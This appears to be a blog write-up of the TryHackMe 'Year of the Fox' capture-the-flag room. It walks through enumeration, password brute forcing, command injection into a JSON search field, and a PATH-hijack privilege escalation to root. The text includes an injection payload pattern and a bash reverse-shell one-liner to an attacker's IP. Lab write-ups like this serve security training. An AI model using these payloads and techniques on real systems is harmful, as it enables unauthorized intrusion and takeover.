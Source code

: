 ```yaml
---
title: "Year of the Fox"
date: 2023-07-12T16:10:31+05:30
draft: false
toc: true
images:
tags:
  - Writeups
  - TryHackMe
---
```

Machine URL :: [Year of the Fox](https://tryhackme.com/room/yotf)
## ENUMERATION
Starting with an nmap scan as always:
```bash
PORT      STATE    SERVICE     VERSION
80/tcp    open     http        Apache httpd 2.4.29
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=You want in? Gotta guess the password!
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: 401 Unauthorized
139/tcp   open     netbios-ssn Samba smbd 3.X - 4.X (workgroup: YEAROFTHEFOX)
445/tcp   open     netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: YEAROFTHEFOX)
2725/tcp  filtered msolap-ptp2
49159/tcp filtered unknown
Service Info: Hosts: year-of-the-fox.lan, YEAR-OF-THE-FOX

Host script results:
| smb2-time: 
|   date: 2023-07-11T10:56:50
|_  start_date: N/A
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_nbstat: NetBIOS name: YEAR-OF-THE-FOX, NetBIOS user: <unknown>, NetBIOS MAC: 000000000000 (Xerox)
|_clock-skew: mean: -19m57s, deviation: 34m39s, median: 2s
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: year-of-the-fox
|   NetBIOS computer name: YEAR-OF-THE-FOX\x00
|   Domain name: lan
|   FQDN: year-of-the-fox.lan
|_  System time: 2023-07-11T11:56:49+01:00
```
Taking a look at the webserver first:
{{< image src="/images/fox/6.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

We don't have any credentials to work with for now so let's move on to Samba.

## SAMBA
Use enum4linux to enumerate SMB shares:

{{< image src="/images/fox/4.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

We got 2 users :
{{< image src="/images/fox/5.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

You can try to bruteforce smb using user fox but its time consuming.
## ACTIVE ENUMERATION
Use hydra to bruteforce web login. It works with user rascal but the password changes everytime we restart the machine.

{{< image src="/images/fox/7.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

The website:
{{< image src="/images/fox/1.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

Search an empty string and you can see the expected input is files. Also , seems like it doesn't like some characters.

{{< image src="/images/fox/2.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

Intercepting request with Burp:
{{< image src="/images/fox/3.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

Now , I used intruder to launch a simple SQL injection fuzzing but got nothing. So now onto command injection. You can run some commands using : 
```plain-text
{"target":"\"; COMMAND \""}
```
Used RCE Command : `bash -i >& /dev/tcp/YOUR-IP/PORT 0>&1` but got invalid-character response so used base 64.

{{< image src="/images/fox/9.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

Use burp repeater:

{{< image src="/images/fox/8.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

We gain an RCE:

{{< image src="/images/fox/10.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

And there we get our first flag!
## FOOTHOLD
Check all processes which are running:

{{< image src="/images/fox/11.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

There seems to be SSH running on port 22 and can be confirmed in `/etc/ssh/sshd_config` file which also tells us that only user fox can use it. We can use this.
Use socat as a TCP port forwarder. Here socat listens on port 2222 , accepts connections and forwards connections to port 22 on remote host.

{{< image src="/images/fox/12.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

We've established a connection. Now time to bruteforce :

{{< image src="/images/fox/13.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

Sweet! Now SSH as User fox :

{{< image src="/images/fox/14.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

And there we have our second flag!
Now see all the commands user fox can run : `sudo -l`

{{< image src="/images/fox/15.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

We can run shutdown as root without password. GTFObins doesn't give anything. Dragging the file onto our machine so we can analyze it.
Use Radare2 :
```
r2 -AAAA /tmp/shutdown
pdg
```
And looks like this binary is calling the `poweroff` binary which doesn't seem to be using an absolute path. So, we can use PATH manipulation to spawn a root shell. Here we are copying /bin/bash to our own version of `/tmp/poweroff` and adding that to `$PATH `so that when it searches for the poweroff binary it searches the /tmp directory first.

{{< image src="/images/fox/16.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

And there we have our root shell.

{{< image src="/images/fox/17.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}
\
{{< image src="/images/fox/18.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

Also found this :

{{< image src="/images/fox/19.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}